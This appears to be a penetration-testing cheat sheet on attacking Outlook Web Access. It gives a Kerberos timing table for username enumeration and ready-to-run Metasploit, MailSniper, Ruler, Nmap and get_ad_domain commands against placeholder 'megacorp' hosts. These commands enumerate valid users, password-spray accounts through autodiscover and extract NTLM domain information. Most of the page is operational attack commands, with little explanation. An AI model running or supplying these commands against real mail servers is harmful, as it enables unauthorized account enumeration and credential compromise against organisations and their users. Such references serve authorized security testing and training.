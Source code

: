 ```yaml
---
description: Outlook Web Access
---
```


# OWA




## Enumerate Users

* [https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/)
* [https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen](https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen)

| Authentication Request                   | Kerberos Process                                     | Response Time |
|------------------------------------------|------------------------------------------------------|---------------|
| Non-existing realm                       | KDC searches for realm                               | 2-3 seconds   |
| Realm exists but username does not exist | Pre-authentication ticket created to verify username | 5-60 seconds  |
| Realm and username exists                | Pre-authentication ticket created to verify password | < 2 seconds   |

> Responses in different environments may have different response times but the pattern in the timing response behavior still exist. ([ref](http://h.foofus.net/?p=784))



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set RHOST mx.megacorp.local
msf > set USER_FILE owa-users.txt
msf > set PASSWORD dummyPassword
msf > set THREADS 15
msf > run
```



### MailSniper

```
PS > Invoke-UsernameHarvestOWA -ExchHostname mx.megacorp.com -Domain MEGACORP -UserList .\owa-users.txt -Threads 25 -OutFile owa-valid-users.txt
```




## Password Spray



### Ruler

* [https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials)

Autodiscover URL implicit:

```
$ ./ruler -k -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-blood.out
```

Autodiscover URL explicit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-all.out
```

Notes:

* In users.txt there's only "username" on a line, not "DOMAIN\username".
* Errors like `ERROR: 04:27:43 brute.go:193: An error occured in connection - Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: net/http: request canceled` do **not** affect the current password probe.




## Parse NTLM

* [https://github.com/nyxgeek/ntlmscan](https://github.com/nyxgeek/ntlmscan)
* [https://gist.github.com/aseering/829a2270b72345a1dc42](https://gist.github.com/aseering/829a2270b72345a1dc42)



### Nmap

```
$ sudo nmap -sV --script http-ntlm-info --script-args http-ntlm-info.root=/ews/ -p443 mx.megacorp.com
```



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set AUTH_TIME false
msf > set RHOST mx.megacorp.local
msf > set USERNAME dummyUser
msf > set PASSWORD dummyPassword
msf > run
```



### MailSniper

```
PS > Invoke-DomainHarvestOWA -ExchHostname mx.megacorp.com
```



### get_ad_domain.zip

```
$ python get_ad_domain.zip -m owa mx.megacorp.com
```

